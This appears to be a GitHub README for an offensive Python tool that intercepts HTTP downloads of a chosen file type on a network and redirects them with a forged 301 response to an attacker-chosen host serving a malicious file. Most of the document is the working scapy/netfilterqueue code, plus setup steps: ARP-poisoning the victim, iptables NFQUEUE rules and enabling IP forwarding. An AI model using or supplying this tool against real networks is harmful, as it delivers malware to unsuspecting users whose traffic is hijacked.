


## This is a python script that intercepts an exe or a common file type download and replaces it with a malicious one of choice.

- We modify the response rather than the request, as to modify the request a manual 3-way handshake must be initiated to begin with.

- We check if the sequence number of the request is equal to the acknowledgement number of the response. If so the request corresponds to that particular matching response.

- We modify response using the __HTTP 301 redirect__ to our chosen attacker host.

### CODE:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import subprocess
import argparse


def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-r", "--redirect-host", dest="host", help="Redirect HTTP EXE requests to this HTTPS Site/Host")
    parser.add_argument("-t", "--file-type", dest="type", help="File extension type to redirect")
    options = parser.parse_args()
    if not options.host:
        # code to handle error
        parser.error("\n[-] Please specify a valid HTTPS redirect Host,  use --help for info.")
    if not options.type:
        # code to handle error
        parser.error("\n[-] Please specify a valid file extension,  use --help for info.")
    return options

ack_list = []

def set_load(packet, load):
    packet[scapy.Raw].load = load
    # remove fields and allow scapy to autocomplete these layers
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    # Cloning and converting to scapy packet
    scapy_packet = scapy.IP(packet.get_payload())
    # Filter for HTTP layer
    if scapy_packet.haslayer(scapy.Raw):
        if scapy_packet[scapy.TCP].dport == 80:
            #print("[+] HTTP Request found")
            # Check for download exe's
            if options.type in scapy_packet[scapy.Raw].load:
                print("[+] An exe request has been found. Trying to Intercept.\n")
                ack_list.append(scapy_packet[scapy.TCP].ack)
            #print(scapy_packet.show())

        elif scapy_packet[scapy.TCP].sport == 80:
            #print("[+] HTTP Response found")
            if scapy_packet[scapy.TCP].seq in ack_list:
                ack_list.remove(scapy_packet[scapy.TCP].seq)
                print("[+] Replacing file\n\n")
                # Remove any clutter added to packet using \n\n
                modified_packet = set_load(scapy_packet, "HTTP/1.1 301 Moved Permanently\r\nLocation: " + options.host + "\n\n")
                print("[+] Request succesfully redirected to target: " + options.host)
                # Convert scapy packet to str and payload
                packet.set_payload(str(modified_packet))

    packet.accept()

print("""
    _______ __        ____      __                            __            
   / ____(_) /__     /  _/___  / /____  _____________  ____  / /_____  _____
  / /_  / / / _ \    / // __ \/ __/ _ \/ ___/ ___/ _ \/ __ \/ __/ __ \/ ___/
 / __/ / / /  __/  _/ // / / / /_/  __/ /  / /__/  __/ /_/ / /_/ /_/ / /    
/_/   /_/_/\___/  /___/_/ /_/\__/\___/_/   \___/\___/ .___/\__/\____/_/     
                                                   /_/                      
    """)

try:
    options = get_arguments()
    print("[-] Note: To redirect a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
    print("\n\n******************************************************************************************")
    print("""
    [!] Run the following commands as root before using this program.
    
    1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
    2. iptables -I INPUT -j NFQUEUE --queue-num 0
    3. echo 1 > /proc/sys/net/ipv4/ip_forward
    
    """)
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n[+] Exitting!")

```


### OUTPUT: 

_Victim:_ 



_Attacker:_


